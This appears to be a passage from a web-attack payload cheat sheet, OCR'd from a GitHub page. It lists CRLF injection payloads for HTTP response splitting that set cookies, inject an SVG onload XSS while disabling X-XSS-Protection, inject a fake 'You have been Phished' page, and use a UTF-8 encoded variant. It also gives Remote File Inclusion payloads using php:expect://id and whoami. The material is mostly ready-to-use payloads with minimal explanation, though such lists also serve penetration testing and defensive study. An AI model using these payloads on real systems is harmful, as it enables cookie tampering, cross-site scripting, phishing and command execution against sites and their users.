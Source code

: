 ### Add a cookie
`request`
```http
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```
`response`
```http
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```
### XSS bypass
```http
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```
### HTML
```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```
### UTF-8 encoded payload
```http
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```
--------------------------------------------------------------------------------

# Remote File Inclusion (RFI)

#### Common payloads
`php:expect://id`

`php:expect://whoami`

Remote file inclusion uses pretty much the same vector as local file inclusion.

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine.

RFI's are less common than LFI. Because in order to get them to work the developer must have edited the php.ini configuration file.
